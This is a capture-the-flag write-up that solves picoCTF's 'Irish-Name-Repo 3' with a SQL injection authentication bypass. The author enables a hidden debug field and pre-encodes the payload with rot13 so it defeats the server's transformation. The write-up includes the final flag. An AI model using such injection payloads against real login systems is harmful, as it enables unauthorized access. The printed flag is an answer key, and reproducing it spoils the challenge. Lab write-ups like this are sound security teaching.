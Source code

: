 # Irish-Name-Repo 3

The SQL gets harder here, so we need a new trick. If you look in the inspector, you'll see this field

```html
<fieldset>
    <div class="form-group">
        <label for="password">Password:</label>
        <div class="controls">
            <input 
                type="password" 
                id="password" 
                name="password" 
                class="form-control"
            >
        </div>
    </div>
    <input type="hidden" name="debug" value="1">
    <div class="form-actions">
        <input type="submit" value="Login" class="btn btn-primary">
    </div>
</fieldset>
```
As well as the password input, their's a debug input, hidden and set to `0`. You'll want to set it to `1`

Loging in with the password `test` and debug `1` the server returns
```text
password: test
SQL query: SELECT * FROM admin where password = 'grfg'
```
Somehow the password is being "encrypted", and then fed into a query.

First lets work out what we want the query to be. We'll try the `OR '1'='1'` trick and see if it works. The query should look like

```sql
SELECT * FROM admin where password = '' OR '1'='1'--'
```
This means a post encryption password of `' OR '1'='1'--`.

Let's put this in and see what happens:

```text
password: ' OR '1'='1'--
SQL query: SELECT * FROM admin where password = '' BE '1'='1'--'
```
The `OR` is being transfered to `BE`.

If we try `ABCDEFGHIJKLMNOPQRSTUVWXYZ` we get

```text
password: ABCDEFGHIJKLMNOPQRSTUVWXYZ
SQL query: SELECT * FROM admin where password = 'NOPQRSTUVWXYZABCDEFGHIJKLM'
```

```
ABCDEFGHIJKLMNOPQRSTUVWXYZ
NOPQRSTUVWXYZABCDEFGHIJKLM
```
This looks like [`rot13`](../cryptography/1-13.md)

Therefor to get `OR` we need an input of `BE`, leaving a total password of `' BE '1'='1'--`

This works. The SQL is 
```sql
SELECT * FROM admin where password = '' OR '1'='1'--'
```

Flag: `picoCTF{3v3n_m0r3_SQL_d78e3333}`
